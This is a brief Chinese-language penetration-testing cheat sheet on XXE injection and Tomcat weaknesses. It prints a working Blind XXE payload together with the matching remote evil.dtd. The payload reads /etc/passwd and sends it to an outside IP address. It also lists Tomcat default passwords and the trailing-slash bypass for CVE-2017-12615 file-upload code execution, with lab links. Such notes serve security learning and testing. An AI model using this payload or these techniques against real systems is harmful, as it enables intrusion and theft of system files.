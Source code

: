 - XXE (XML External Entity Injection 外部实体注入) 

- libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。

- 无回显的Blind XXE攻击：利用url带出数据，限制字数。

  ```
  漏洞触发点：
  <!DOCTYPE ANY [ 
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://123.206.29.105/evil.dtd">
  %dtd;
  %send;
  ]>

  VPS evil.dtd文件：
  <!ENTITY % all
  "<!ENTITY &#x25; send SYSTEM 'http://123.206.29.105/?%file;'>"
  >
  %all;
  ```

- Tomcat：

  - 弱口令：**v5版本**默认有两个角色：tomcat和role1，其中账号both、tomcat、role1的默认密码都是tomcat，不过不具备部署应用的权限，默认需要manager权限才能够直接部署war包；v6-9均无默认角色及账号，且manager页面只允许本地IP访问。[http://vulhub.org/#/environments/tomcat/tomcat8](http://vulhub.org/#/environments/tomcat/tomcat8)
  - 远程代码执行：2017年9月19日公布的CVE-2017-12615，前提是Tomcat启用了 HTTP **PUT** 请求方法。漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件。虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。[http://vulhub.org/#/environments/tomcat/CVE-2017-12615](http://vulhub.org/#/environments/tomcat/CVE-2017-12615)

